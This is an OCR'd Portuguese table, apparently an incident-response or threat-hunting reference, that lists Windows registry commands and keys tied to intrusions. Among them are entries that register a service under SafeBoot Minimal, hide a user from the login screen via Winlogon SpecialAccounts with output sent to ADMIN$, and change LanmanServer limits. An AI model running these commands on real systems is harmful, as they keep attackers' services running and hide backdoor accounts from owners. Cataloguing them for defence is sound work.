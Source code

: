 | COMANDO | DESCRIÇÃO |
|--------------------------------------------|--------------------------------------------------------------------------------------|
| REG ADD HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\mXoRpcSsx /VE /T REG_SZ /F /D Service | XXX |
| REG QUERY HKLM\SYSTEM\CurrentControlSet\Control /v SystemStartOptions | Verifica as configurações de inicialização do sistema no registro |
| REG ADD HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\VSS /VE /T REG_SZ /F /D Service  | Relacionado a VSS no contexto de inicialização mínima do Windows (Safe Mode) |
| HKLM\SOFTWARE\Microsoft\Windows Media Player NSS\3.0\Servers\D8B548F0-E306-4B2B-BD82-25DAC3208786\(Servidor malicioso) | Utilizado para armazenar configurações e informações relacioandas a sistema e software. Parece estar relacionado à configuração de servidores ou dispositivos associados ao WMP o nome do servidor pode estar disponível |
| HKU\S-1-5-21-4270068108-2931534202-3907561125-1001\Software\Microsoft\Windows\CurrentVersion\Shell Extensions\Cached\{ED50FC29-B964- 48A9-AFB3-15EBB9B97F36} {ADD8BA80-002B-11D0-8F0F-00C04FD7D062} 0xFFFF | Utilizado para recuperar algum tipo de Shell no Sistema Operacional |
| reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v MaxMpxCt /d 65535 /t REG_DWORD /f | Configura a entrada de valor no registro para definir o limite máximo de contagens MPX para o serviço LanmanServer como 65535. O valor MaxMpxCt é relacionado a comunicação cliente x servidor em compartilhamento de arquivos |
| cmd.exe /Q /c reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList /t REG_DWORD /v [USER] /d 0 /f 1> \\127.0.0.1\ADMIN$\__[TIMESTAMP] 2>&1 | Ocultar usuário na tela de Login do Windows |
